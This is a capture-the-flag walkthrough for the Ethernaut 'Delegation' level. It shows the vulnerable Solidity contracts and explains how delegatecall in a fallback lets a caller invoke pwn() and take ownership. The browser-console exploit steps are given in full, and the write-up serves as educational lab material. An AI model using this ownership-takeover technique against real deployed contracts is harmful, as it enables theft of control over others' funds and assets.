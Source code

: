 # 06 Delegation

```
The goal of this level is for you to claim ownership of the instance you are given.

  Things that might help

Look into Solidity's documentation on the delegatecall low level function, how it works, how it can be used to delegate operations to on-chain libraries, and what implications it has on execution scope.
Fallback methods
Method ids
```
####  code
```

// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;

contract Delegate {

  address public owner;

  constructor(address _owner) {
    owner = _owner;
  }

  function pwn() public {
    owner = msg.sender;
  }
}

contract Delegation {

  address public owner;
  Delegate delegate;

  constructor(address _delegateAddress) {
    delegate = Delegate(_delegateAddress);
    owner = msg.sender;
  }

  fallback() external {
    (bool result,) = address(delegate).delegatecall(msg.data);
    if (result) {
      this;
    }
  }
}

```

#### Start 


### (1) ` claim ownership`

The hint he tells us about delegatecall 


Looking at the code, You can see  the contract have `fallback()` and use `delegatecall()` 

#### `delegatecall()` 

Exampl. when A `delegatecall()` to B, the code runs in contract B scope, but when updating storage it updates to contract A scope.

warning the storage structure must be the same

how do we do

.

.

.


.

.

.

As you can see, in contract Delegation there is use `delegatecall()` in `fallback()` function to the contract Delegate, 

and in the Delegate contract there is a `function pwn() public` which changes the owner `owner = msg.sender`

means that we have to call fallback and put msg.data with  `function pwn()`

#### Open Developer Tools (F12)

- (1)  In `msg.data` , the data to be sent must be hashed first, which is done by use web3.utils.keccak256 or web3.utils.sha3

    type `web3.utils.keccak256("pwn()")` 

    you will see a message 

    `'0xdd365b8b15d5d78ec041b851b68c8b985bee78bee0b87c4acf261024d8beabab'` this is msg.data to call  `function pwn()`

- (2) We will need to pass `msg.data` to the `fallback()` function to trigger a `delegatecall` with our `msg.data`
  
  
    type `await contract.sendTransaction({data: "0xdd365b8b15d5d78ec041b851b68c8b985bee78bee0b87c4acf261024d8beabab"})` 
    
    and confirm transaction




Click button Submit instance and confirm transaction

# !!! we passed !!!


